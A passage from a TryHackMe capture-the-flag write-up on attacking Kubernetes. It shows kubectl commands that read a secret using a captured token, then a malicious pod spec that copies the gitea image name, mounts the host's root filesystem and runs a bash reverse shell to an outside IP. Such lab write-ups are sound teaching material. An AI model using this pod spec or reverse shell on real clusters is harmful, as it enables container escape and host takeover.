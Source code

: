 Through the above command, I identified flag 3 in one of the namespaces:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/fa3c3372-d3ce-4daa-a2de-f5d79c7c30a3)

```bash
kubectl --server https://10.10.103.155:6443 --certificate-authority=ca.crt --token=$token get secret flag3 -n kube-system -o yaml #to check the file content in yaml format
```

Using this command, I successfully retrieved the 3rd flag from the container: (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/9911ad09-952d-42ff-a31f-f68ca7584bfa)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Flag 4:

To escalate privileges and gain root access on the target host, I exploited a misconfiguration in Kubernetes. From previous Kubernetes enumeration, I identified that using a token and certificate, I could create a new POD.

Analyzing the structure of the existing Gitea-0 POD, I crafted a YAML file for a malicious POD. The malicious POD utilized the same image name as the Gitea-0 POD to create confusion.

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/21a41463-f9b9-480b-954f-3780cb3aa7fd)

```bash
kubectl --server https://10.10.132.252:6443 --certificate-authority=ca.crt --token=$token get pods gitea-0 -n default -o yaml
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/8694d906-2d93-40ae-8afd-a1e422ba4ff9)

The crafted YAML file resembled the following:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: kill3r1
  namespace: default
spec:
  containers:
  - name: kill3r1
    image: gitea/gitea:1.5.1  #same image name for the pod gitea-0
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.6.79.71/8443 0>&1"]  #this will execute the bash reverse shell
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
